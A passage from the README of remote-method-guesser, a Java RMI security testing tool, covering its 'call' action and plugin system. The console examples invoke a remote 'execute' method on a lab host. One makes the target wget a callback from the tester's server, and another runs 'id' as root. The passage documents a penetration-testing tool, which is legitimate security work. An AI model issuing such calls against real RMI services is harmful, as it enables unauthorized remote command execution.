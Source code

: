 By using *remote-method-guesser's Plugin System*, it is also possible to bind custom objects to the *RMI registry*. To learn more about
the *Plugin System*, please refer to the [documentation folder](./docs/rmg/plugin-system.md).


#### call

Using *remote-method-guesser's* ``call`` action, you can invoke remote methods without writing any *Java code*. Consider the
method ``String execute(String cmd)`` exists on the remote server. This method sounds promising and you may want to invoke
it using a regular *Java RMI call*. This can be done by using the following command:

```console
[qtc@devbox ~]$ rmg call 172.17.0.2 9010 '"wget 172.17.0.1:8000/worked"' --signature 'String execute(String cmd)' --bound-name plain-server
[qtc@devbox www]$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
172.17.0.2 - - [30/Nov/2021 07:19:06] "GET /worked HTTP/1.1" 200 -
```

Notice that calling remote methods does not create any output by default. To process outputs generated by the ``call`` action, you need
to use *remote-method-guesser's* plugin system and register a ``ResponseHandler``. The [plugin folder](./plugins) of this repository contains
a *GenericPrint* plugin that is suitable for most situations. To learn more about *remote-method-guesser's* plugin system, please refer to the
[detailed documentation folder](./docs/rmg/plugin-system.md).

```console
[qtc@devbox remote-method-guesser]$ bash plugins/build.sh target/rmg-4.0.0-jar-with-dependencies.jar plugins/GenericPrint.java GenericPrint.jar
[qtc@devbox remote-method-guesser]$ rmg call 172.17.0.2 9010 '"id"' --signature 'String execute(String cmd)' --bound-name plain-server --plugin GenericPrint.jar 
[+] uid=0(root) gid=0(root) groups=0(root)
```

During the ``call`` action, the argument string is evaluated as a *Java expression* of the following form: ``new Object[]{ <ARG> }``. Therefore,
you need to make sure that your argument string fits into that pattern. E.g. using ``"id"`` as an argument results in an error, as the argument is
passed as ``id`` to *remote-method-guesser* and the resulting expression ``new Object[]{ id }`` is not a valid *Java expression*. Instead, you need
to use ``'"id"'`` as this leads to ``new Object[]{ "id" }``, which is valid.

Moreover, primitive types need to be specified in their corresponding object representation (e.g. ``new Integer(5)`` instead of ``5``). Otherwise they
cannot be used within the ``Object[]`` array, that is created by the *Java expression*. During the *RMI call*, the corresponding arguments are used
as intended and will fit your specified method signature. For more complex use cases, you can also define a custom ``ArgumentProvider`` by using 
*remote-method-guessers* [plugin system](./docs/rmg/plugin-system.md).


#### codebase
